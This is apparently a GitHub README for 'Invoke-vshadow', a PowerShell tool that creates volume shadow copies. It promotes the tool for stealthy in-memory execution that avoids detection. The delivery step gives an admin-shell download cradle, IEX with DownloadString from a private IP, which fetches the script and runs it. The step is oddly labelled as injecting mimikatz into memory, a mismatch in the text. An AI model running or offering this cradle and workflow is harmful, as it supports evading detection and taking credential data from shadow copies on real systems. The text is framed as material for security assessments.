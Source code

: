 # Invoke-vshadow
Using Invoke-vshadow in PowerShell offers stealthy in-memory execution that avoids detection by not writing files to
disk, making it ideal for security assessments with minimal system footprint. The script creates a shadowcopy and outputs detailed information about it. Basically it provides the functionality of 'vshadow.exe -nw -p' within PowerShell.

## Deliver
1. Start a Powershell with administrative privileges
2. Inject mimikatz into the memory:
```
IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.45.165/Invoke-vshadow.ps1')

## Usage
```
Invoke-vshadow -volume 'C:\'
```

